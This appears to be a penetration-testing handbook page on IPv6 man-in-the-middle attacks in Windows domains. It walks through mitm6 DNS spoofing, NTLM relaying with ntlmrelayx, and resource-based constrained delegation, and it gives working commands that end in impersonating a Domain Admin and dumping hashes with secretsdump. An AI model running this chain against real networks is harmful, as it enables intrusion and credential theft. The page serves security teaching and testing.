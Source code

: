 # MitM IPv6

{% hint style="info" %}
All Windows versions since Windows Vista (including server variants) have IPv6 enabled and prefer it over IPv4. IPv6 attacks abuses the default IPv6 configuration in Windows networks to spoof DNS replies by acting as a malicious DNS server and redirect traffic to an attacker specified endpoint.
{% endhint %}

## <mark style="color:red;">MITM6</mark>

First we start mitm6, which will start replying to DHCPv6 requests and afterwards to DNS queries requesting names in the internal network.

```
mitm6 -d test.local
```

For the second part of our attack, we use ntlmrelayx to relay the captured hashes. Now i will show two possible ways to use this tool, first through a simple SMB relay like we saw earlier

```
ntlmrelayx.py -6 -tf Targets.txt -socks -smb2support
```

In this case, the attack is pretty much the same as the one we saw earlier we juste replaced responder with mitm6 for the obvious reasons previously mentionned.now, another attack is possible through **WPAD serving.** WPAD is a protocol used to ensure all systems in an organization use the same web proxy configuration. Instead of individually modifying configurations on each device connected to a network, WPAD locates a proxy configuration file and applies the configuration automatically. More details about this attack can be found in the references. using ntlmrelayx to also implement this attack, we launch the attack using the following command :

```
ntlmrelayx.py -6 -wh attacker.test.local -tf targets.txt -l loot -socks -debug
```

{% embed url="https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6" %}

## <mark style="color:red;">NTLM Relay + Kerberos Delegation</mark>

When Windows configured for DHCP boots, it looks for DHCP configuration, and then proxy configuration using WPAD. That way, when the victim computer boots and starts looking for proxy config, the machine account tries to authenticate to us.

1. We set up a man-in-the-middle DHCP server on IPv6 and serve a DNS IPv6 configuration that points to our rogue DNS IPv6 server.
2. When the victim uses WPAD to look for a proxy configuration file over DNS, we let it connect to our fake proxy server and then prompt for authentication using a `407 Authentication Required` request.
3. We capture and relay the (encrypted) credentials of the machine account to LDAPS on the domain controller (DC).
4. We ask the DC over LDAPS to create a new machine account. Active Directory allows any user account, including machine accounts to add 10 machine accounts by default.( NOTE: LDAPS and not LDAP, because creating machines over unencrypted channels is prohibited)
5. We now have credentials for a machine account. The reason we create a machine account is that we need access to an account with a Service Principal Name (SPN).
6. We now ask the DC to configure resource-based constrained delegation for this new machine account on the victim computer object. For example: the machine account `WS02$` sets the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the computer object `WS02` to allow the newly created machine account to impersonate users on it.
7. We request a service ticket using the machine account that was created, where we impersonate a user that has local admin access to our target computer.
8. We use the service ticket to access the computer with local admin privileges. The ticket with these privileges is only valid on the target box.

Now off to the commands :

1st, mitm6 as explained previously (in this case limiting just the attack on the icorp-w10 host but can be fully utilized on others) :

```
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqnd
```

2nd, ntlmrelayx :

```
ntlmrelayx.py -t ldaps://icorp-dc.internal.corp -wh attacker-wpad --delegate-access
```

3rd, we can use `getST.py` from ntlmrelayx, which will do all the S4U2Self an S4U2Proxy magic for us. You will need the latest version of impacket from git to include resource based delegation support. In this example we will be impersonating the user `admin`, which is a member of the `Domain Admins` group and thus has administrative access on `ICORP-W10`

```
// Some codegetST.py -spn cifs/icrop-w10.internal.corp internal.corp/account_created_by_previous_cmd -impersonate admin
```

Once that done, you should've the keberos service ticket for the user admin saved in admin.ccache file and is valid for cifs/icorp-w10.internal.corp. This only lets us impersontate this user to this specific host, not to other hosts in the network. With this ticket we can do whatever we want on the target host for, for example dumping hashes with secretdumps:

```
export KRB5CCNAME=admin.ccache
secretsdump.py -k -no-pass icrop-w10.internal.corp
```

The attacker now has full control over the victim workstation.

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}

{% embed url="https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation" %}

{% embed url="https://chryzsh.github.io/relaying-delegation" %}
